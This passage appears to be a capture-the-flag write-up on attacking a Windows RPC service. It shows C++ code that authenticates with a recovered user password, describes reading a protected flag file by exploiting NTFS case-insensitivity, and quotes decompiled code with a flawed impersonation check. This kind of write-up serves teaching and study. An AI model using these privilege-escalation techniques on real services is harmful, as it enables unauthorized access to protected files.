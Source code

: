Now that we have the user password we can call the different RPC calls by using `RpcBindingSetAuthInfo`:

```cpp
    auto domain = L".";
    auto user = L"Limited";
    auto pass = L"Insomnia1";

    SEC_WINNT_AUTH_IDENTITY authInfo;
    authInfo.Flags = SEC_WINNT_AUTH_IDENTITY_UNICODE;
    authInfo.Domain = (RPC_WSTR)domain;
    authInfo.DomainLength = wcslen(domain);
    authInfo.User = (RPC_WSTR)user;
    authInfo.UserLength = wcslen(user);
    authInfo.Password = (RPC_WSTR)pass;
    authInfo.PasswordLength = wcslen(pass);

    status = RpcBindingSetAuthInfo(hCtf, (RPC_WSTR)L"PRINCNAME", RPC_C_AUTHN_LEVEL_CALL, RPC_C_AUTHN_WINNT, &authInfo, 0);

    if (status) exit(status);
```

Now we can explore the file system using file listing. I was however unable to immediately find where the directory with the service file was. However after looking at the other methods, the `InsoRpcQueryFileFullPath` RPC call actually returns us the path to the `Service.exe` if an empty file path is passed! This let us know that the service is installed in `C:\Program Files\Winternals1\Service.exe`. But obviously, our user is unable to read the flag.txt file, which we can attempt to read by (ab)using the fact that NTFS is case insensitive and reading `C:\Program Files\Winternals1\FLAG.txt` instead.

## The second vulnerability

We can notice that in the `InsoRpcReadFile` (and `InsoRpcReadFilePriviledged`) function, the priviledge escalation looks dodgy:

```cpp
  v9 = 0;
  if ( RpcImpersonateClient(BindingHandle) )
  {
    LastError = GetLastError();
    v11 = GetLastError();
    sub_140002340(L"RpcImpersonateClient() err: %d - 0x%08x\r\n", v11, LastError);
  }
  else
  {
    v9 = 1;
  }
  ...
  // read the file
  ...
  if ( v9 )
    RpcRevertToSelf();
```

